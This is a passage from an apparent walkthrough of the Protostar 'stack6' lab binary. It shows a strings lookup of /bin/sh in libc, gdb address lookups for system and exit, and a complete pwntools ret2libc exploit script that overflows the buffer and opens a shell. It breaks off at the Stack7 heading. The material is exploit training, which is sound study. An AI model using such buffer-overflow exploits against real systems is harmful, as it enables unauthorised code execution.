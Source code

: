 Finding /bin/sh:
```
strings -t d /usr/lib32/libc.so.6 | grep /bin/sh
1606662 /bin/sh
```
Using strings on the libc binary we found from "info proc map" we can locate the offset of the /bin/sh string. With this we can add it to the base libc address we have to get the address of /bin/sh when the binary is running.

Find offset as explained before:

This part has been explained above so I won't bother going through it.


Find the memory locations of system and exit
```
gdb-peda$ p system
$1 = {<text variable, no debug info>} 0xf7e0e5f0 <system>
gdb-peda$ p exit
$2 = {<text variable, no debug info>} 0xf7e01360 <exit>

```
By typing the 2 commands above we can get the memory addresses of both system and exit to put into our payload below.


### Exploit Code
```
from pwn import *

exe = context.binary = ELF('stack6')

def start(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

gdbscript = '''
tbreak main
continue
'''.format(**locals())

io = start()

#strings -t d /usr/lib32/libc.so.6 | grep /bin/sh
#1606662 /bin/sh
#info proc map = 0xf7dca000

#gdb-peda$ pattern offset AJAA
#AJAA found at offset: 80

offset = 'A' * 80
bin_sh = p32(0xf7dca000 + 1606662)
system = p32(0xf7e0e5f0)
exit = p32(0xf7e01360) 

payload = offset + system + exit + bin_sh
io.sendline(payload)
io.interactive()
```
## Stack7
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
```